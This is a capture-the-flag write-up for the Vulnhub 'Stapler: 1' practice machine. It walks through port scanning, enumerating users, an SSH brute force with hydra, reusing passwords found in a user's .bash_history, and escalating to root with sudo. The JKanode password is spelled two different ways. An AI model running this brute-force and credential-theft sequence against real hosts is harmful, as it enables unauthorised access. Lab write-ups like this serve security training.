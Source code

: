 <h1>Stapler: 1 Write-up</h1>

<h2>Nmap</h2>

```
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 2.0.8 or later
|_sslv2-drown: 
22/tcp    open  ssh         OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
53/tcp    open  domain    	  dnsmasq 2.75
80/tcp    open  http        PHP cli server 5.5 or later
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
666/tcp   open  doom?
3306/tcp  open  mysql       MySQL 5.7.12-0ubuntu1
12380/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
```


Enumerate  users using **enum4linux**

Users : 

```
harry
elly
john
barry
zoe
scott
peter
RNunemaker
ETollefson
DSwanger
AParnell
SHayslett
MBassin
JBare
LSolum
IChadwick
MFrei
SStroud
CCeaser
JKanode
CJoo
Eeth
LSolum2
JLipps
jamie
Sam
Drew
jess
SHAY
Taylor
mel
kai
zoe
NATHAN
www
elly
```

Brute force ssh using user list as user file and also with password file :

```hydra -L users -P users 192.168.56.32 ssh```

```
username :SHayslett
password :SHayslett
```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/Stapler%3A%201/Images/brute.png)


Found ssh creds in .bash_history file of user 'JKanode' 

```
sshpass -p thisimypassword ssh JKanode@localhost
sshpass -p JZQuyIN5 peter@localhost
```

```
username : JKanode
password : thisismypassword
```

```
username :peter
password :JZQuyIN5
```


Switch to peter user

type bash to escape zsh shell 

<h2>Privilege Escalatation:</h2>

```
sudo -l 
sudo su - root
```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/Stapler%3A%201/Images/Flag.png)

  
